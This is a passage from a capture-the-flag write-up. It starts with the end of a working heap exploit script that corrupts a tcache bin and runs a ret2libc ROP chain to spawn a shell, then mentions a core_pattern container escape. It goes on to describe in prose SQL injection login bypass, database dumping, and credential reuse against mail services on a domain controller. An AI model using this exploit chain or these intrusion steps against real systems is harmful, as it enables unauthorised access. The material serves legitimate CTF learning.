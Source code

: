 ```python
edit(9, payload)

# allocate out of the tcache bin, corrupting it
create(11, 0x3f0, b"removefirsttcache") # 0x10 (16 bytes) smaller than the tcache bin.
# this will be at our target location

# basic ret2libc payload

ret = p64(libc_base + 0x1afc8c) # objdump -d libc.so.6 | grep ret
poprdiret = p64(libc_base + 0x10f75b) # ROPgadget --binary libc.so.6 | grep 'pop rdi'
system = p64(libc.symbols["system"])
binsh = p64(libc_base + 0x1cb42f) # strings -a -t x libc.so.6 | grep /bin/sh
final_payload = p64(0) + ret + poprdiret + binsh + system + p64(0)

create(12, 0x3f0, final_payload)

# attach(p)

p.sendlineafter(b'>>', b'4') # exit main to trigger exploit

p.interactive()

```

After this we land in a docker container with root access. The container escape was via core_pattern, which is relatively easy - description of the approach here: https://pwning.systems/posts/escaping-containers-for-fun/

## SQ4: Krampus Festival

- Scoreboard: 2nd (team)
- Rated: Insane
- Released: Day 17

### Keycard

A scan of the box revealed a second website with a login form. The form is vulnerable to sql injection so you can bypass it, landing on a cctv management page. The feeds for the cameras return nothing, but are also vulnerable to sql injection in the query string, so you can recover the database. This will reveal the name of a recording not shown on the main site (containing 1337) which you can watch to get the keycard.

### Sidequest

This was a phishing and AD exploitation challenge, a bit tricky. The foothold was particularly painful: after unlocking the side quest machine you can scan and see a bunch of windows ports, indicating its a domain controller (but no port 88). There is a share that contains the first flag and a excel document called approved.xlsx. The excel document contains a list of apparent passwords, and was from administrator@socmas.corp to developer@test.corp. The path in is using developer and one of those passwords to authenticate with an imap/smtp server also exposed on the box. This took me a long time and a lot of wasted effort because I discarded that developer email out of hand.

